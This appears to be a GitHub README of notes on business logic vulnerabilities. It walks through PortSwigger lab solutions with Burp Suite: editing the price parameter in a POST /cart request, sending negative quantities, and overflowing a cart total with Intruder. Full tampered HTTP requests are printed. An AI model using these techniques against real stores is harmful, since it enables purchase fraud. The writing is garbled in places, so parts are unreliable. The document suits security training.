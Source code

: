 ## Business logic vulnerabilities

Business logic vulnerabilities need manual intervention as No tool can detect these and they can vary from application to application and very hazardous. 
We have to understand application logic, application functionality, implementations, and business requirements. Whenever we intercept the request,
we have to manipulate specific parameters in the request or so to test for the business logic vulnerability


 ## Some common example of business logic:
 
 Manipulation in the product price in the request so we can purchase products in less amount during the online shopping.
 
 Manipulation in user-supplied input (too much quantity or –ve quantity) and not checked from the server-side.
 
 Manipulation in intended flow (2FA).
 
 ## 1. Manipulation in the product price in the request so we can purchase products in less amount during the online shopping.
 
 With Burp running, log in and attempt to buy the leather jacket. The order is rejected because you don't have enough store credit. 
 
 In Burp, go to "Proxy" > "HTTP history" and study the order process. Notice that when you add an item to your cart,
 the corresponding request contains a price parameter. Send the POST /cart request to Burp Repeater. 
 
 ## Request 
 
    POST /cart HTTP/1.1
    Host: 0a5d00c0038b8062c09a11d7009700cc.web-security-academy.net
    Cookie: session=VQHFrZjrndyN8kEb1ivgOD4X9YydBrGB
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 49
    Origin: https://0a5d00c0038b8062c09a11d7009700cc.web-security-academy.net
    Referer: https://0a5d00c0038b8062c09a11d7009700cc.web-security-academy.net/product?productId=1
    Upgrade-Insecure-Requests: 1
    Sec-Fetch-Dest: document
    Sec-Fetch-Mode: navigate
    Sec-Fetch-Site: same-origin
    Sec-Fetch-User: ?1
    Te: trailers
    Connection: close

    productId=1&redir=PRODUCT&quantity=1&price=133700
    
 ## Note That Show Price in request 
 
     productId=1&redir=PRODUCT&quantity=1&price=133700   
     
 So Change The Price and sand the request in server, like server is accept the request, here business logic vulnerabilities
 
 
 ## 2. High-level logic vulnerability
 
 Your card amount 100$ but you wante purchase 200$ product, buy 2 product first product price 50$ and secand product price 150$
 
 First Product nurp request sand burp repeter and  Observe that product quantity=1 so chnage the product guantity add -
 
 just like quantity=-2 and sand the request in server, accept the request, this is vulnerability 
 
 ## Request 
 
    POST /cart HTTP/1.1
    Host: 0ab6005b04eb8061c0d3246e00430049.web-security-academy.net
    Cookie: session=BC6C85CuO7OKzvT5oSjqsThv5qBb6Xap
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 37
    Origin: https://0ab6005b04eb8061c0d3246e00430049.web-security-academy.net
    Referer: https://0ab6005b04eb8061c0d3246e00430049.web-security-academy.net/product?productId=2
    Upgrade-Insecure-Requests: 1
    Sec-Fetch-Dest: document
    Sec-Fetch-Mode: navigate
    Sec-Fetch-Site: same-origin
    Sec-Fetch-User: ?1
    Te: trailers
    Connection: close

    productId=2&redir=PRODUCT&quantity=1
 
 Change The product header like quantity=1 so change quantity=-2
 
    productId=2&redir=PRODUCT&quantity=-2
    
 Your product price 100$ so buy know the product price 200$ but this is vulnerable so your product price 100$
     
     
 ## 3. Low-level logic flaw
 
 First Add 2 product, first product price is 100$, secand product price is 200$, Total price is 300$, 
 
 some appliction limited add product, so add unlimited product the price is less the price {-} so this is vulnerblity
 
 how to find, simple, On the "Payloads" tab, select the payload type "Null payloads". Under "Payload options", select "Continue indefinitely". Start the attack 
 
 While the attack is running, go to your cart. Keep refreshing the page every so often and monitor the total price. Eventually, notice that the price suddenly switches to a large negative integer
 
 ## This is Vulnerblity
 
 Create the same Intruder attack again, but this time, under "Payloads" > "Payload Options", choose to generate exactly 323 payloads. 
 
 Notice That the price is negative like (-1000$) so add some product and price is positive (100$) so buy the product, This is Low-level logic flaw
  
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
  
